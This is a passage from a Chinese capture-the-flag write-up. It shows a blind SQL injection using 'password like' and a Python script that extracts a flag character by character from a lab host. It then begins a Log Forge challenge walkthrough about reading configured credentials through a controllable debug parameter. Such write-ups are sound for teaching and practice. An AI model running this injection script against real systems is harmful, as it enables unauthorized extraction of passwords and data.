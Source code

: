 用`like`就可以了，最后构造的语句为`2 and password like '%'#`，后端的SQL语句应该是`select username from users where id = 1 and password like '%'#`

写个脚本开始跑

```python
import requests

burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}

flag = ""
s = "0123456789QAZXSWEDCVFRTGBNHYUJMKIOLP-{}"

for j in range(1, 120):
    for i in s:
        if i in "-{}":
            i = "\\"+i
        burp0_url = "http://eb97b9e9-5955-4ac4-b506-6499f21a7497.node4.buuoj.cn:81/SUPPERAPI.php?id=2 and password like '" + flag + i + "%25'%23"

        res = requests.get(burp0_url, headers=burp0_headers, allow_redirects=False)
        time.sleep(0.1)
        print str(j) + " : " + i
        if "flag" in res.text:
            flag += i
            print flag
            break
        if i == "\\}":
            print flag
            exit()

```

这里由于BUU的靶机不能请求太快，不然就会`429 Too Request`，所以加了一个sleep函数

![image-20220724172846920.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-c7c04712be93992975742700474dfa76387a5e3f.png)

tenableCTF - Log Forge
======================

题目中给了jar包，使用`jd-gui`反编译工具打开查看源码

![image-20220614170219977.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-11b9e0bd6293b5137f053758dce30c28f108c9b1.png)

查看`LogForgeSec.class`源码可知，其username和password的值都是通过配置文件读取的

![image-20220614170441213.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-134a112dde421e73509195ebfd817302b02a9d7a.png)

![image-20220614170456590.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-e0a234fb9ab37beda07dfab86f7fa7254d695970.png)

查看`LogForgeErrorController.class`源码可知，其中`dbgmsg`变量是可控的，并且从其渲染的文件中可知，可以利用该参数读取配置文件中的username和password
